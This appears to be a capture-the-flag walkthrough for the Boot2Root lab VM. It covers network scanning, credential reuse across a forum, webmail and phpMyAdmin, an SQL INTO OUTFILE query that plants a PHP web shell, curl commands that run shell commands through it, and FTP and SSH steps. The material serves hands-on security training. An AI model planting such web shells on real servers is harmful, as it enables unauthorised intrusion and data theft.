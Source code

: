 # Find our IP

At first we should find our Ip address. Run `ip a` or `ifconfig` command in your shell
interpreter for this.  
Priority use `ip a` because this command show all IPs with its subnetwork address.

![](./img/ip_a.png)

# Scan our subnetwork

Our IP is `192.168.1.74/24`. Then we scan our subnetwork, using `nmap <IP>`.  
Is recommended tune your Boot2Root VM with bridge network connection.

![](./img/nmap.png)

Required IP will be marked by "Boot2Root Hack Me" string or will have only list
opened services such as:  
***ftp, ssh, http, imap, https, imaps***, - with its port.

So we see is opened *http* and *https* services we can scan its.

# Dirb

We want to find another web-resources hosted on this web-server.  
Use `dirb https://192.168.1.86 -r`

![](./img/dirb.png)

Was found 3 web-sites:  
- https://192.168.1.86/forum
- https://192.168.1.86/webmail
- https://192.168.1.86/phpmyadmin

# Forum

Let's go to the forum. We see 4 posts there and one of it have name "Probleme login ?".  
We find log from ssh connection, opening this post.

Extract information with:

    curl --insecure "https://192.168.1.86/forum/index.php?id=6" | grep 'invalid user'

![](./img/curl_invalid_user.png)

We see string like a password typed instead of username:

![](./img/curl_invalid_user_passwd.png)

Try to connect via ssh `ssh lmezard@<192.168.1.86`

![](./img/ssh_lmezard_permission.png)

Permission denied. Ok, try login on forum with same credentials. Well done!)  
Check lmezard's user profile.

![](./img/lmezard_forum_profile.png)

Copy his e-mail and go to webmail web-site.

# Mail

Try login with copied e-mail and password from forum.  
We was been accepted. There is 2 e-mails, opening both we can find credentials for connection to a DB.

![](./img/lmezard_mail.png)

# Php My Admin

Login there with login and password from previous step.  
It is main idea that we want to scan home directory in host machine. And we want create file with php script what can execute shell command.  
So login was done with root credentials, we can create this file, using SQL-injection.

But, at first, we should assign where we can do it. Use `dirsearch.py` script (it install from external github) for scan 3 given web-site.

    ./dirsearch.py -u <URL>

![](./img/dirsearch_1.png)
![](./img/dirsearch_2.png)

Under LAMP, files from the website are usually stored under /var/www/ or /var/www/custom_routes (which is probably the case here, like /var/www/forum). Simply using the command won't work, we need to find a folder on which we have rights to store the script.  
SQL-injection:

    SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/forum/templates_c/exec_shell.php'

We receive access reply only from `forum/templates_c` folder. Very well, now we can execute `ls -la` on the server.

    curl --insecure "https://<IP>/forum/templates_c/exec_shell.php?cmd=cd%20/home;%20ls%20-la"

![](./img/curl_sql_injection.png)

Use the same way scan "LOOKATME" folder:

![](./img/curl_lookatme.png)

Open password file

![](./img/curl_pawwsord.png)

FTP service has been being started and by way of connection to it we can try to load some files from host.  
Let's try to connect via FTP.

# FTP (FIleZilla)

We find one archive "fun" and file "README" after connection via ftp. Load this files to our local machine.  
Extracted this archive we see 751 files there, each from its contain part of C program. Try to restore it with our script:

    python3 restore.py

Compile got program *script.c* and execute it.

![](./img/ftp_hack_script.png)

We get password from ssh connection, what is hashed by SHA256. Decode it, using next command:

    echo -n <PASSWD> | sha256sum

![](./img/sha256sum.png)

Now let's try to connect via ssh with credentials:

    login: laurie
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

Why login is laurie? Because lmezard's e-mail has laurie before '@'.